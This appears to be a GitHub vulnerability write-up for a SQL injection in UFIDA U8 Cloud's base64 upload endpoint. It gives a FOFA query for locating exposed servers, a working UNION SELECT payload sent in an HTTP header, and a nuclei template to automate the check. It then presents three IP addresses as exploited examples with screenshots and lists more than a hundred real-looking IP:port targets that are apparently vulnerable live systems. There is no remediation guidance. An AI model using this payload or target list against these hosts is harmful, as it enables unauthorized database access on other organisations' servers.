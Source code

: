 # UFIDA U8 Cloud has SQL injection vulnerability



fofa:

```
app="用友-U8-Cloud"
```



poc:

```
POST  HTTP/2
Host: {ip:port}
System: 1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CHAR(0)+CHAR(84)+CHAR(101)+CHAR(115)+CHAR(116)+CHAR(0),NULL-- QIwq
User-Agent: Apifox/1.0.0 (https://apifox.com)
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=9BDE3B22EF7C78D05EB3D132CACE10F5.u8cServer
Content-Length: 0
```



nuclei:

```yaml
id: yongyou-U8-Cloud-base64-sqli

info:
  name: yongyou-U8-Cloud-base64-sqli
  author: fangnan700
  severity: critical
  description: 用友U8 Cloud base64存在SQL注入漏洞

http:
  - raw:
    - | 
      POST /u8cloud/api/file/upload/base64 HTTP/1.1
      Host: {{Hostname}}
      User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:74.0) Gecko/20100101 Firefox/74.0
      Connection: close
      Content-Type: application/json
      system: 1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CHAR(0)+CHAR(84)+CHAR(101)+CHAR(115)+CHAR(116)+CHAR(0),NULL-- QIwq
      Accept-Encoding: gzip, deflate
      Content-Length: 0

    matchers:
      - type: dsl
        dsl:
         - 'status_code==200 && contains_all(body,"Test")'
```





Exp1: 103.47.80.19:8087

![image-20240314162617747](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240314162617747.png)

![image-20240314162641286](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240314162641286.png)



Exp2: 8.140.98.172:8088

![image-20240314162522055](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240314162522055.png)

![image-20240314161255132](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240314161255132.png)





Exp3: 61.171.62.17:8088

![image-20240314162545871](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240314162545871.png)

![image-20240314161335466](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240314161335466.png)





Others:

```
http://101.34.145.244:8088
http://101.200.47.6:8088
http://1.62.125.215:8088
http://1.183.18.214:18888
http://1.203.158.20:91
http://101.39.244.2:8088
http://101.206.210.153:8088
http://101.28.247.37:8088
http://106.14.166.255:8088
http://103.47.80.19:8087
http://103.47.80.19:8088
http://110.40.131.161:8088
http://111.160.97.107:9090
http://111.229.211.56:9000
http://111.200.255.86:8000
http://111.40.46.178:8088
http://111.40.8.188:8001
http://112.3.63.20:14000
http://112.91.108.41:8899
http://114.67.91.199:8090
http://114.242.9.143:8088
http://115.231.199.194:888
http://116.132.60.178:8088
http://115.198.108.192:8088
http://116.63.175.36:8088
http://116.63.188.165:8088
http://117.50.120.68:8088
http://117.40.181.91:8088
http://118.186.63.174:8088
http://118.113.234.216:8088
http://119.45.250.196:8888
http://120.132.31.219:8088
http://120.211.29.239:8006
http://121.30.188.153:8090
http://121.227.153.218:8088
http://121.36.19.8:8088
http://106.14.245.182:8088
http://121.36.4.240:88
http://121.36.53.47:8090
http://121.36.35.137:8090
http://121.36.74.167:8088
http://121.36.89.92:8088
http://121.36.89.92:8089
http://121.36.9.186:8088
http://121.36.9.186:8099
http://121.37.222.75:8088
http://121.5.243.182:12155
http://121.4.193.113:87
http://121.89.220.84:8088
http://121.89.238.191:8088
http://121.8.235.2:8000
http://122.224.204.204:8088
http://122.9.138.14:8088
http://122.114.57.116:8088
http://122.9.155.153:8088
http://123.124.158.4:8088
http://123.117.208.74:8081
http://123.117.208.74:8088
http://123.249.68.225:8089
http://123.15.55.36:8088
http://123.178.22.166:8088
http://123.57.128.132:8088
http://123.56.133.176:9090
http://123.60.220.255:8089
http://123.60.5.48:8081
http://123.57.163.50:8088
http://124.205.247.39:8088
http://124.167.21.3:8090
http://124.65.99.110:8088
http://124.235.168.2:8088
http://124.70.27.239:8090
http://124.70.75.178:8088
http://124.71.166.162:8088
http://124.71.155.97:8088
http://124.71.181.235:8088
http://125.46.86.82:8888
http://124.93.12.104:8088
http://139.159.230.125:8088
http://139.196.209.239:8088
http://139.224.192.211:8088
http://139.9.149.194:8088
http://139.9.147.248:8088
http://139.9.47.235:8088
http://139.9.74.103:9090
http://139.9.243.81:8088
http://139.9.225.148:8088
http://139.9.243.81:8899
http://150.138.116.193:8088
http://140.246.128.177:8088
http://153.0.130.1:8088
http://171.221.203.89:8088
http://175.27.195.88:8088
http://171.221.225.25:8088
http://180.100.207.167:8088
http://182.92.205.189:8088
http://183.131.84.118:8088
http://182.45.224.222:8088
http://182.151.197.5:8000
http://202.107.227.202:8088
http://202.107.226.254:9001
http://202.107.251.11:8088
http://202.105.136.98:8090
http://202.109.133.141:8088
http://202.105.136.98:8088
http://211.149.252.246:8088
http://218.108.203.42:8088
http://211.149.162.235:8088
http://218.57.139.157:8088
http://218.57.193.25:8088
http://218.60.149.57:8088
http://219.145.168.235:8090
http://220.180.32.227:8099
http://221.181.233.39:81
http://221.180.204.57:8088
http://221.202.66.143:8089
http://221.179.253.80:8089
http://221.226.178.138:8088
http://222.180.210.250:8089
http://222.191.239.202:8082
http://222.173.87.2:8088
http://222.170.210.184:8099
http://222.173.87.2:8090
http://222.222.182.35:8088
http://222.223.206.155:8088
```

![image-20240314161856592](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240314161856592.png)






